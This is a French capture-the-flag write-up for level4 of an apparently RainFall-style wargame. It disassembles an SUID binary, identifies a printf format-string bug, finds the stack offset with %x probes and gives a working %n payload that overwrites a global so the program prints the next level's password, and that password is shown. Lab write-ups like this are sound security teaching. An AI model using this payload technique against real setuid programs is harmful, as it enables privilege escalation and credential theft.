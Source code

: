 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
  [...]
  ```
    - On a un binaire appartenant a level5 dans le home avec les droits SUID.

- `./level4`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level4`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x08048444  p
      0x08048457  n
      0x080484a7  main
    [...]
    ```
    - on trouve une fonction n() et une fonction p() en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x080484a7 <+0>:	push   ebp
       0x080484a8 <+1>:	mov    ebp,esp
       0x080484aa <+3>:	and    esp,0xfffffff0
       0x080484ad <+6>:	call   0x8048457 <n>
       0x080484b2 <+11>:	leave
       0x080484b3 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction n()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas n`
    ```asm
    Dump of assembler code for function n:
       0x08048457 <+0>:	push   ebp
       0x08048458 <+1>:	mov    ebp,esp
       0x0804845a <+3>:	sub    esp,0x218
       0x08048460 <+9>:	mov    eax,ds:0x8049804
       0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
       0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
       0x08048471 <+26>:	lea    eax,[ebp-0x208]
       0x08048477 <+32>:	mov    DWORD PTR [esp],eax
       0x0804847a <+35>:	call   0x8048350 <fgets@plt>
       0x0804847f <+40>:	lea    eax,[ebp-0x208]
       0x08048485 <+46>:	mov    DWORD PTR [esp],eax
       0x08048488 <+49>:	call   0x8048444 <p>
       0x0804848d <+54>:	mov    eax,ds:0x8049810
       0x08048492 <+59>:	cmp    eax,0x1025544
       0x08048497 <+64>:	jne    0x80484a5 <n+78>
       0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
       0x080484a0 <+73>:	call   0x8048360 <system@plt>
       0x080484a5 <+78>:	leave
       0x080484a6 <+79>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur de l'adresse 0x8049804 dans le data segment register
        - `x/s 0x8049804`
          - `0x8049804 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) dans la stack (à esp + 8)
      - Stocke 0x200 (512) dans la stack (à esp + 4)
      - Fait pointer eax sur ebp - 520
      - Stocke eax (l'adresse ebp - 520) dans la stack (à esp)
      - Call fgets() avec les arguments stockés dans la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse du retour de fgets()) sur la stack (à esp)
      - Call la fonction p() avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+73>
      - Stocke dans eax la valeur de l'adresse 0x8049810 dans le data segment register
        - `x/s 0x8049810`
          - `0x8049810 <m>:	 ""`
      - Compare eax (la valeur de la globale m) avec 0x1025544 (16930116)
        - Jump à <+78> si la comparaison est fausse
        - sinon:
          - Stocke la la valeur à l'adresse 0x8048590 sur la stack (à esp)
            - `x/s 0x8048590`
              ```
              0x8048590:	 "/bin/cat /home/user/level5/.pass"
              ```
          - Call system() avec l'argument stocké sur la stack<br/><br/>
    - <+78> ... <+79> <= Jump conditionnel depuis <+64>
      - Réinitialisation de la mémoire, fin d'exécution

  - `disas p`
    ```asm
    Dump of assembler code for function p:
       0x08048444 <+0>:	push   ebp
       0x08048445 <+1>:	mov    ebp,esp
       0x08048447 <+3>:	sub    esp,0x18
       0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
       0x0804844d <+9>:	mov    DWORD PTR [esp],eax
       0x08048450 <+12>:	call   0x8048340 <printf@plt>
       0x08048455 <+17>:	leave
       0x08048456 <+18>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+12>
      - Stocke dans eax la valeur à ebp + 12 (son premier argument)
      - Stocke eax sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack
    - <+17> ... <+18>
      - Réinitialisation de la mémoire, fin d'exécution

## Exploit

Ca resemble fortement au niveau précédent, il n'y a même que 3 différences:
- on a une fonction en plus qui fait le call a printf
- m est comparé à 16930116
- le programme ne pop pas un shell mais nous cat directement le contenu du fichier .pass

On cherche l'offset de notre format string:
- `echo "AAAA %x %x %x %x" | ./level4`
  ```
  AAAA b7ff26b0 bffff754 b7fd0ff4 0
  ```
- `echo "AAAA %x %x %x %x %x %x %x %x" | ./level4`
  ```
  AAAA b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510
  ```
- `echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4`
  ```
  AAAA b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141
  ```
  - Ca y est ! On sait que l'on commence à lire sur la format string au 12eme paramètre (41414141)

On lance notre payload malicieux avec 16930112 de padding (16930116 - les 4 octets nécessaires pour notre adresse)
- `python -c 'print "\x10\x98\x04\x08%1$16930112d%12$n"' | ./level4`
  ```
               -1208015184
  0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
  ```
